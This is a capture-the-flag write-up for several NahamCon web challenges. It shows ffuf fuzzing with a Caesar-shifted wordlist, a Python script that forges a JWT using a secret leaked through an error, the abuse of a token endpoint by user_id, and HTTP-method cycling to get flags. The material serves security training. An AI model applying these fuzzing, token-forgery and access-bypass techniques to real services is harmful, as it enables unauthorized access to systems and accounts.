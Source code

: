 # Web

## My Second CTF

[<img src="mysecondctfchall.png"
/>](mysecondctfchall.png)

We were provided with a wordlist.  Looking at the site nothing is really obvious. 

[<img src="mysecondctf.png"
/>](mysecondctf.png)

It felt like this was going to be caesar cipher related based on the my first ctf challenge.  So I took the wordlist and created a wordlist with all caesar cipher possibilities. 

```python
def caesar_shift(word, shift):
    result = []
    for char in word:
        if char.isalpha():
            base = ord('A') if char.isupper() else ord('a')
            # shift and wrap around alphabet
            shifted = chr((ord(char) - base + shift) % 26 + base)
            result.append(shifted)
        else:
            result.append(char)  # non-alpha chars unchanged
    return ''.join(result)

input_file = 'wordlist.txt'
output_file = 'wordlist_caesar_all_shifts.txt

with open(input_file, 'r') as fin, open(output_file, 'w') as fout:
    for line in fin:
        word = line.strip()
        if not word:
            continue
        for shift in range(1, 26):  # shifts 1 to 25
            shifted_word = caesar_shift(word, shift)
            fout.write(shifted_word + '\n')

print(f"All Caesar shifts generated: {output_file}")

```

With this new wordlist I could use ffuf to check for any hidden directories. 

```bash
ffuf -u http://challenge.nahamcon.com:31993/FUZZ -w wordlist_caesar_all_shifts.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://challenge.nahamcon.com:31993/FUZZ
 :: Wordlist         : FUZZ: /home/kali/Documents/ctf/nahamconctf2025/warmup/web/my_second_ctf/wordlist_caesar_all_shifts.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

fgdwi                   [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 121ms]
:: Progress: [2550/2550] :: Job [1/1] :: 336 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

When looking at that page we saw.

[<img src="missingparam.png"
/>](missingparam.png)

Lets try find the missing param.

```bash
ffuf -u 'http://challenge.nahamcon.com:30815/fgdwi/?FUZZ=me' -w wordlist_caesar_all_shifts.txt -fs 48 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://challenge.nahamcon.com:30815/fgdwi/?FUZZ=me
 :: Wordlist         : FUZZ: /home/kali/Documents/ctf/nahamconctf2025/warmup/web/my_second_ctf/wordlist_caesar_all_shifts.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 48
________________________________________________

eqphkto                 [Status: 200, Size: 49, Words: 1, Lines: 1, Duration: 118ms]
:: Progress: [2550/2550] :: Job [1/1] :: 294 req/sec :: Duration: [0:00:08] :: Errors: 0 ::
```

Got a hit with `eqphkto` which equated to `confirm`. 

Which gave us the flag.

[<img src="ctf2flag.png"
/>](ctfflag2.png)

## My third CTF

[<img src="mythirdctfchall.png"
/>](mythirdctfchall.png)

Similar to my second ctf I used the wordlist I had created and ran it against the url subsequent times to find the full url giving the flag.

[<img src="mythirdctfflag.png"
/>](mythirdctfflag.png)

## Infinite queue

[<img src="infinitequeuechall.png"
/>](infinitequeuechall.png)

There was an option to join the queue for tickets. 

[<img src="queue.png"
/>](queue.png)

Upon joining you are giving a JWT with a very long wait time. 

[<img src="longwait.png"
/>](longwait.png)

[<img src="jwt.png"
/>](jwt.png)

I tried create a None alg JWT and used that, which gave a 500 error which disclosed the JWT secret.

[<img src="jwt_secret.png"
/>](jwt_secret.png)

I could now forge a JWT with low wait time, to bypass the queue. 

```python
import jwt
import time

secret = "4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC"

payload = {
    "user_id": "me@me.htb",
    "queue_time": 20,  # set this to 0 or any small value
    "exp": int(time.time()) + 3600 * 24 * 365  # 1 year from now, adjust as needed
}

# Encode JWT using HS256 and your secret
token = jwt.encode(payload, secret, algorithm="HS256")

print("Modified JWT:")
print(token)

```

[<img src="purchase.png"
/>](purchase.png)

With that I was able to get the flag.

[<img src="queueflag.png"
/>](queueflag.png)

## Advanced screening

[<img src="advancedscreeningchall.png"
/>](advancedscreeningchall.png)

We see a site.

[<img src="advancedscreening.png"
/>](advancedscreening.png)

But looking at the app.js file we see an interesting function which is called after previous functions to validate codes etc:

```javascript
const tokenResponse = await fetch('/api/screen-token', {
                    method: 'POST',
                    headers: { 'Content-Type': 'application/json' },
                    body: JSON.stringify({ user_id: data.user_id })
                }
```

So rather than trying to get a valid code, we can just search for screen-tokens via user_id.  

A few attempts yields nothing, but then we find something. 

[<img src="notfound.png"
/>](notfound.png)

[<img src="hash.png"
/>](hash.png)

We can now use something else in the js file

```javascript
               if (tokenResponse.ok && tokenData.hash) {
                    window.location.href = `/screen/?key=${tokenData.hash}`;
                }
```

[<img src="screenflag.png"
/>](screenflag.png)

## Method in the madness

[<img src="methodinthemadnesschall.png"
/>](methodinthemadnesschall.png)

Looking at the site there are some check boxes and a link to a page. 

[<img src="methodpage.png"
/>](methodpage.png)

The linked page is just this.

[<img src="interesting.png"
/>](interesting.png)

But after visiting I notice one of the checkboxes is now filled in.  

[<img src="get.png"
/>](get.png)

So it turns out based on the name of the challenge that we just need to use multiple HTTP Methods on the interesting page in order get the flag, including:

```
GET
POST
PUT
PATCH
DELETE
OPTIONS
```
[<img src="methodflag.png"
/>](methodflag.png)

